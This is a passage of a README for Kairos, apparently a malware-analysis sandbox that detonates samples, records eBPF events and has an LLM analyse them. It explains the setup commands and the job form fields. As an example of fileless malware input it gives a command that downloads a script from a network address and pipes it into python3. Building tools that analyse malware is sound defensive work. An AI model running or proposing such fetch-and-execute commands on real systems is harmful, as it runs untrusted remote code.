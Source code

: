 ```shell
make run
```

### Note: 

#### For testing this is done on the same machine as the Server and UI, but the *main* binary and *eBPF/main.bpf.o* can be copied to a VM or another machine (see [Runner Future State](#runner-future-state) for more info)
#### Ensure that the *main.bpf.o* is in a subfolder called *eBPF/* and then the command

```shell
sudo WS_ADDRESS=127.0.0.1 WS_PORT=8080 SKIP_VERIFY_TLS=TRUE ./main
```



#### If you wish to enable verbose logging you can add the LOG_V=TRUE env value. If you are running the server with a certificate you can enable TLS verfication

### 7. Open the app in your browser
Visit [http://localhost:8000](http://localhost:8000) in your browser

## How To Use Kairos

 - With a Runner connected, click `Add Job` from the webUI and populate the values and click `Submit`. 

#### Field Explanations
  - Name: is optional and is only for the user's reference in the UI
  - amd64/arm64: toggle is for selecting a runner with that architecture
  - Keep runner alive: this will keep the runner online after a job (for DFIR) but will not accept new jobs until after a restart 
  - Run Duration: determines how long the runner will run the malware and collect events before terminating (keep in mind that long run times will bypass LLM context length)
  - Run Command: Allows running a shell command instead of uploading a binary file
    - Run Command Args: is the shell command for the file-less malware i.e. `curl 192.168.8.12/10131 | python3` would be an example pyloose attack
    - Bin Exclusion: for the curl example, we know `curl` to be a benign binary and are not interested in the eBPF events so we can add `curl` to the Bin Exclusion input
      - This is a space separated list and the exclusion with match on substring, so you can add `curl` or `/usr/bin/curl` either will work
  - Malware File: allows you to upload a binary file
  - File Args: allows you to pass args to the binary file
    - These are space separated and quote grouped so `server --host 0.0.0.0 --port 8080` is acceptable input or `"-u user" "-p pass"` is another example if you want grouped
  - Save CMD Output: Saves the raw command line output from the exe (more of a nice to have sometimes)
    - Usually leave this disabled if you are running a file-less exploit as you will only see the output from the first command i.e. `curl` 
  - Override System Prompt: This allows you to modify the LLM system prompt if you want to add more context into the analysis 
    - This input is saved for every LLM analysis retry as well.

---